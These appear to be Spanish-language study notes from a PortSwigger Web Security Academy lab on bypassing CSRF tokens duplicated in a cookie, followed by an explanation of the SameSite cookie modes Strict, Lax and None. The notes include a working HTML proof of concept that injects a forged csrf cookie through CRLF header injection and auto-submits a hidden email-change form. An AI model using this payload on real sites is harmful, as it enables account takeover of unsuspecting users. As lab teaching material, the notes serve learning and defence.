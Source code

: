 Poc:

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://URL-VULNERABLE/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="hidden" name="csrf" value="fake" />
     <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a480019035853b38352287c00700099.web-security-academy.net/?search=test4%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
   
  </body>
</html>

```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie).

## Samesite cookie

Restricciones SameSite:

- Lax
- Strict
- None

Ninguna de estas restricciones garantiza total inmunidad.

Si no hay una restricción asociada a la cookie chrome utiliza Lax por defecto, lo que quiere decir que solo se enviara la cookie si cumple con un criterio.

### Strict

El sitio de la solicitud debe coincidir con el sitio que se muestra actualmente en la barra URL del navegador si no, la cookie no se va a enviar lo que quiere decir que la cookie no se envía entre sitios diferentes.

### Lax

Para que se envíe la cookie la solicitud debe cumplir los siguiente

- Utiliza método GET
- La solicitud se debe realizar por parte de un usuario(por ejemplo si la realiza un bot no se envia) como al hacer clic en un link

### None

La cookie se envía en todas las solicitudes que se hagan.

Si la cookie es configurada con el valor None se le debe añadir también el valor secure para que solo se envíe en conexiones https.
